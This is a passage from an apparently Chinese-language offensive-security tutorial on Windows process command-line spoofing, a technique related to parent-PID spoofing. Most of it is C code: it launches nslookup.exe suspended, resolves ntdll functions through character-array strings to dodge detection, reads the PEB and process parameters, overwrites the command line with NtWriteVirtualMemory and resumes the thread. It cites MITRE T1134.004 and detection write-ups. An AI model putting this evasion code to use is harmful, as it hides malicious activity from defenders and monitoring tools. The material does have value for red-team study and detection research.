    ProcessDebugAuthInformation, // since REDSTONE4 // 90
    ProcessSystemResourceManagement, // s: PROCESS_SYSTEM_RESOURCE_MANAGEMENT
    ProcessSequenceNumber, // q: ULONGLONG
    ProcessLoaderDetour, // since REDSTONE5
    ProcessSecurityDomainInformation, // q: PROCESS_SECURITY_DOMAIN_INFORMATION
    ProcessCombineSecurityDomainsInformation, // s: PROCESS_COMBINE_SECURITY_DOMAINS_INFORMATION
    ProcessEnableLogging, // qs: PROCESS_LOGGING_INFORMATION
    ProcessLeapSecondInformation, // qs: PROCESS_LEAP_SECOND_INFORMATION
    ProcessFiberShadowStackAllocation, // s: PROCESS_FIBER_SHADOW_STACK_ALLOCATION_INFORMATION // since 19H1
    ProcessFreeFiberShadowStackAllocation, // s: PROCESS_FREE_FIBER_SHADOW_STACK_ALLOCATION_INFORMATION
    ProcessAltSystemCallInformation, // s: PROCESS_SYSCALL_PROVIDER_INFORMATION // since 20H1 // 100
    ProcessDynamicEHContinuationTargets, // s: PROCESS_DYNAMIC_EH_CONTINUATION_TARGETS_INFORMATION
    ProcessDynamicEnforcedCetCompatibleRanges, // s: PROCESS_DYNAMIC_ENFORCED_ADDRESS_RANGE_INFORMATION // since 20H2
    ProcessCreateStateChange, // since WIN11
    ProcessApplyStateChange,
    ProcessEnableOptionalXStateFeatures, // s: ULONG64 // optional XState feature bitmask
    ProcessAltPrefetchParam, // qs: OVERRIDE_PREFETCH_PARAMETER // App Launch Prefetch (ALPF) // since 22H1
    ProcessAssignCpuPartitions, // HANDLE
    ProcessPriorityClassEx, // s: PROCESS_PRIORITY_CLASS_EX
    ProcessMembershipInformation, // q: PROCESS_MEMBERSHIP_INFORMATION
    ProcessEffectiveIoPriority, // q: IO_PRIORITY_HINT // 110
    ProcessEffectivePagePriority, // q: ULONG
    ProcessSchedulerSharedData, // SCHEDULER_SHARED_DATA_SLOT_INFORMATION // since 24H2
    ProcessSlistRollbackInformation,
    ProcessNetworkIoCounters, // q: PROCESS_NETWORK_COUNTERS
    ProcessFindFirstThreadByTebValue, // PROCESS_TEB_VALUE_INFORMATION
    MaxProcessInfoClass
} PROCESSINFOCLASS;
typedef LONG       KPRIORITY;
typedef struct _PROCESS_BASIC_INFORMATION {
    NTSTATUS ExitStatus;
    PPEB PebBaseAddress;
    ULONG_PTR AffinityMask;
    KPRIORITY BasePriority;
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
typedef NTSTATUS (NTAPI* pNtQueryInformationProcess)(
    IN HANDLE               ProcessHandle,
    IN PROCESSINFOCLASS ProcessInformationClass,
    OUT PVOID               ProcessInformation,
    IN ULONG                ProcessInformationLength,
    OUT PULONG              ReturnLength);

```



```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    PROCESS_BASIC_INFORMATION pbi = {sizeof(PROCESS_BASIC_INFORMATION)};

    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

    char str1[] = { 'N','t','Q','u','e','r','y','I','n','f','o','r','m','a','t','i','o','n','P','r','o','c','e','s','s','\0' };
    pNtQueryInformationProcess NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(LoadLibrary(L"ntdll.dll"), str1);
    NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);

```

在获取到PEB的地址后通过`ReadProcessMemory`

读取远程进程内存

```
PEB peb;
    ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, &peb, sizeof(PEB), NULL);

```

拿到PEB后 去读里面的结构体`RTL_USER_PROCESS_PARAMETERS`

```
RTL_USER_PROCESS_PARAMETERS param;
    ReadProcessMemory(pi.hProcess, peb.ProcessParameters, &param, sizeof(RTL_USER_PROCESS_PARAMETERS), NULL);

```

修改远程进程内存

```
char str2[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str2);

ULONG bytesWritten;
NtWriteVirtualMemory(pi.hProcess, param.CommandLine.Buffer, cmdLine, wcslen(cmdLine) * sizeof(WCHAR),&bytesWritten);

ResumeThread(pi.hThread);

```



类似的 Image file name 可以通过 `ImagePathName`修改

# 参考

<https://blog.f-secure.com/detecting-parent-pid-spoofing/>

<https://idiotc4t.com/defense-evasion/fake-ppid>

<https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing>

<https://attack.mitre.org/techniques/T1134/004/>

<https://www.picussecurity.com/resource/blog/how-to-detect-parent-pid-ppid-spoofing-attacks>
